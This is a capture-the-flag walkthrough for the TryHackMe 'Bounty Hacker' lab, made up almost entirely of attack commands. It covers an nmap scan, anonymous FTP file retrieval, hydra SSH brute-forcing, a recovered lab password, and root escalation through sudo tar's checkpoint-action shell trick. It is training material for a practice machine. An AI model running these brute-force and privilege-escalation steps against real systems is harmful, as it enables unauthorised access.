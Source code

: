 # THM - Bounty Hacker.txt

```shell
nmap -sV -Pn -p- 10.10.146.228
```

Examining Web Server | Users: ed faye ein spike edward jet 

```shell
ftp 10.10.146.228
	anonymous
		mget *
			y
		bye


hydra ssh://10.10.146.228 -L users.txt -P locks.txt
```

> RedDr4gonSynd1cat3

```shell
ssh lin@10.10.146.228
	yes
	RedDr4gonSynd1cat3
		ls
		cat user.txt

		sudo -l
			RedDr4gonSynd1cat3

		sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

			whoami

			cat /root/root.txt
```
